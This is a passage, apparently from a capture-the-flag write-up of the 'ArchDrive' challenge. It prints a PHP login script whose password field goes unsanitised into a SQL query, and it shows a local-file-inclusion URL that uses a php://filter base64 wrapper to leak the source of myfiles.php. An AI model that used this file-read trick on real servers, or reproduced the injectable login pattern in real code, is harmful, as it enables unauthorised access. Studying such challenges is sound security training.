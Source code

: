 ```php
      $user = mysqli_real_escape_string($bdd, strtolower($_POST['email']));
      $pass = $_POST['pass'];
$sql = "SELECT user,password FROM `access-users` WHERE user='".$user."' AND password='".$pass."'";

      $res = mysqli_query($bdd, $sql);

      $num_row = mysqli_num_rows($res);
      $row=mysqli_fetch_assoc($res);

        if ( $num_row == 1 && $user === $row['user']) {
            $state->return = 'true';
            $_SESSION['logged'] = 1;
            header("Location: myfiles.php");

      } else {
          $state->return = 'false';
          header("Location: index.php");
      }
    }
  }
?>
```

Great, new file appeared: __myfiles.php__

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=myfiles.php

```php
<?php session_start();

    if($_SESSION['logged'] === 1)
    {
    ?>
<!DOCTYPE html>
<html lang="en">
<head>
  <title>My Files</title>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="icon" type="image/png" href="images/icons/favicon.ico"/>
  <link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
  <link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
  <link rel="stylesheet" type="text/css" href="fonts/iconic/css/material-design-iconic-font.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
  <link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
  <link rel="stylesheet" type="text/css" href="css/util.css">
  <link rel="stylesheet" type="text/css" href="css/main.css">
</head>
<body>
  <div class="limiter">
    <div class="container-login100">
      <div class="wrap-login100">
          <span class="login100-form-title p-b-48">
            <a href="index.php"><img class="logo-brand" src="images/archdrive-color.png" alt="ArchDrive logo"></a>
          </span>
          <span class="login100-form-title p-b-26">
            ArchDrive
          </span>

```